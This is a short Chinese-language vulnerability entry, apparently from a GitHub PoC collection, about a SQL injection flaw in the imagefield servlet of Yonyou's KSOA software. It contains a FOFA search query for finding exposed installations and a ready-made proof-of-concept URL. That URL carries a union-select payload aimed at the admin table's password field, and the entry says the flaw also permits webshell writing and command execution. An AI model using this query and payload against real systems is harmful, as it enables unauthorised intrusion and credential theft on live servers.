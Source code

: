 ## 用友时空KSOA-imagefield接口存在SQL注入漏洞

用友时空KSOA imagefield接口存在SQL注入漏洞，黑客可以利用该漏洞执行任意SQL语句，如查询数据、下载数据、写入webshell、执行系统命令以及绕过登录限制等。

## fofa
```
app="用友-时空KSOA"
```

## poc
```
/servlet/imagefield?key=readimage&sImgname=password&sTablename=bbs_admin&sKeyname=id&sKeyvalue=-1%27+union+select+sys.fn_varbintohexstr(hashbytes(%27md5%27,%271%27))--+

```

![c6b2b6d4ba7df38952d185d684c2e60a](../../images/ba1e8364-d789-480b-bbbb-e9ab0e067950.png)
